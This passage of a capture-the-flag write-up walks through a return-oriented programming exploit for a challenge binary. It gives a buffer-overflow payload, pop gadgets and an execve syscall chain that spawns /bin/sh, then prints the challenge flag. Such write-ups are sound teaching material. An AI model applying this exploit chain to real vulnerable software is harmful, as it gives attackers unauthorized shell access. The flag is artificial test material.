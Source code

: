 ```
payload = ''
payload += '/bin/shx00'
payload += p64(0x00)
payload += 'A'*(88-len(payload))
```

And memory locations:

```
0x631080: '/bin/shx00'
0x631088: 'x00x00x00x00x00x00x00x00'
```

And as I mentioned above, `rdi` is already pointing to the beginning of my payload, which is now `/bin/shx00`. So we need a gadget for setting the following registers, `rax`, `rsi`, and `rdx`, and of course, the syscall gadget.

The `pop` instruction will be the easiest for us, so I simply grepped the text dump for pop. Since we decoded the instructions as x86, we’ll be looking for the x86 registers. There are duplicates, but these were the ones I happend to grab:

```
GADGETS_BASE    = 0x601080
GADGET_POP_EAX  = GADGETS_BASE + 0x7609#:    58                      pop    %eax
GADGET_POP_ESI  = GADGETS_BASE + 0x761b#:    5e                      pop    %esi
GADGET_POP_EDX  = GADGETS_BASE + 0x760f#:    5a                      pop    %edx
GADGET_SYSCALL  = GADGETS_BASE + 0x2d0f#:    0f 05                   syscall
```

Finally, we are ready to put everything together for the complete ROP chain:

```
p = getp()

payload = ''
payload += '/bin/shx00'
payload += p64(0x00)
payload += 'A'*(88-len(payload))
payload += p64(GADGET_POP_EAX)
payload += p64(59)
payload += p64(GADGET_POP_ESI)
payload += p64(0x631088)
payload += p64(GADGET_POP_EDX)
payload += p64(0x631088)
payload += p64(GADGET_SYSCALL)

p.sendline(payload)
```

**Full Script Download:** babys\_first\_rop\_pwner.py

# Flag

**OpenCTF{Itz\_0nly\_45\_c0Mpl1c4t3d\_as\_you\_want\_itTOBE}**

Go to Source
